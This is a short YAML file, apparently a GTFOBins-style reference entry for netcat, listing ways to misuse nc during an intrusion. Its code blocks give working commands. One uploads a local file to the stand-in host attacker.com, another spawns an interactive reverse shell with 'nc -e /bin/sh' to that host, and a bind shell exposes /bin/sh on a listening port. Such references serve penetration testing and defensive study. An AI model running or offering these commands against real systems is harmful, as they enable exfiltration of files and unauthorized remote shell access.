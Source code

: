 ```yaml
---
functions:
  upload:
    - description: Send a file to a TCP port. Run `nc -l -p 12345 > "file_to_save"` on the attacker box to collect the file.
      code: |
        RHOST=attacker.com
        RPORT=12345
        LFILE=file_to_send
        nc $RHOST $RPORT < "$LFILE"
  download:
    - description: Fetch remote file from a remote TCP port. Run `nc target.com 12345 < "file_to_send"` on the attacker box to send the file.
      code: |
        LPORT=12345
        LFILE=file_to_save
        nc -l -p $LPORT > "$LFILE"
  reverse-shell-interactive:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        RHOST=attacker.com
        RPORT=12345
        nc -e /bin/sh $RHOST $RPORT
  bind-shell-interactive:
    - description: Run `nc target.com 12345` on the attacker box to connect to the shell.
      code: |
        LPORT=12345
        nc -l -p $LPORT -e /bin/sh
---
```

